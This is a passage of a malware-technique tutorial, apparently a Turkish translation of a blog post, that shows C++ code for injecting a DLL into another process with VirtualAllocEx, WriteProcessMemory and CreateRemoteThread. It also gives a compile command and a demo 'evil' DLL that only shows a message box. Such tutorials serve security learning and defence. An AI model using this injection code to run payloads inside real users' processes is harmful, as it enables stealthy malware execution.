 ```cpp

  // get process ID by name
  pid = findMyProc(argv[1]);
  if (pid == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  } else {
    printf("PID = %d\n", pid);
  }

  // open process
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(pid));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, 
  evilLen, 
  (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, 
  NULL, 
  0, (LPTHREAD_START_ROUTINE)lb, 
  rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```

`hack2.cpp`'yi derleyelim:

```bash
x86_64-w64-mingw32-gcc -O2 hack2.cpp -o hack2.exe 
-mconsole -I/usr/share/mingw-w64/include/ -s 
-ffunction-sections -fdata-sections -Wno-write-strings 
-fno-exceptions -fmerge-all-constants -static-libstdc++ 
-static-libgcc -fpermissive >/dev/null 2>&1
```

![compile injector](./images/9/2021-09-30_03-04.png){width="80%"}

Aynısı gibi "evil" DLL:     
```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/09/20/malware-injection-2.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
      MB_OK
```